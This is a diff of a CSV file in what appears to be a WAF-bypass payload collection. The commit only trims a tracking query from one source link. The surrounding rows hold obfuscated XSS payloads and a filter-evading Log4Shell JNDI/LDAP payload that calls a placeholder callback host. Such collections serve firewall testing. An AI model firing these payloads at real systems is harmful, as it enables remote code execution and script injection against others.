

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
fix link

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -421,3 +421,3 @@ https://twitter.com/mokiatsu/status/1579026152899084288,"<a/+/OnMoUsEOVEr+=+(con
 https://twitter.com/AmoloHT/status/1540134103810510855,"<sVg %00%00%00//onsite ONloAd=\u0061\u006C\u0065\u0072\u0074`/AmoloHT/`//>",xss
-https://www.cpomagazine.com/cyber-security/cisa-and-other-third-parties-publish-log4j-scanners-to-detect-log4shell-vulnerabilities-but-most-fail-to-identify-all-instances/?utm_campaign=coschedule&utm_source=twitter&utm_medium=cpomagazine&utm_content=CISA%20and%20Other%20Third%20Parties%20Publish%20Log4j%20Scanners%20To%20Detect%20Log4Shell%20Vulnerabilities%20but%20Most%20Fail%20To%20Identify%20All%20Instances,"${jnd${123%25ff:-${123%25ff:-i:}}ldap://{{callback_host}}/{{random}}}",rce
+https://www.cpomagazine.com/cyber-security/cisa-and-other-third-parties-publish-log4j-scanners-to-detect-log4shell-vulnerabilities-but-most-fail-to-identify-all-instances/,"${jnd${123%25ff:-${123%25ff:-i:}}ldap://{{callback_host}}/{{random}}}",rce
 https://twitter.com/0x0SojalSec/status/1616859476472262656,"parameter=<svg/&parameter=onload=alert()>",xss
```
